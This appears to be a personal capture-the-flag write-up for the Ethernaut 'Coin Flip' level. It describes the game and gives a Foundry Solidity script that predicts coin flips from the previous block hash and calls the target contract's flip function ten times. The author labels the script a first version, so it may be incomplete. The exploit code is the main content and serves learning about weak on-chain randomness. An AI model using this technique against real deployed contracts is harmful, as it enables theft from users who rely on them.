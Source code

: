 ```yaml
            code: false
            color: "default"
          plain_text: "Coin Flip"
          href: null
  url: "https://www.notion.so/Coin-Flip-c27578d40d2f427d968d5623d7000dab"
  public_url: null
UPDATE_TIME: "2024-02-13T10:44:25.488Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This is a coin 
flipping game where you need to build up your winning streak by guessing
 the outcome of a coin flip. To complete this level you'll need to use 
your psychic abilities to guess the correct outcome 10 times in a row.


Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above in the top right corner menu, section "Beyond the console"

Here is the first version of my solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_03");
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        vm.startBroadcast(deployerPrivateKey);
        CoinFlip instance = CoinFlip(addr);

        for (uint i = 0; i < 10; i++) {
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint coinFlip = blockValue / FACTOR;
          bool side = coinFlip == 1 ? true : false;
          instance.flip(side);
          console.logUint(instance.consecutiveWins());
       }


        vm.stopBroadcast();
    }
}
```
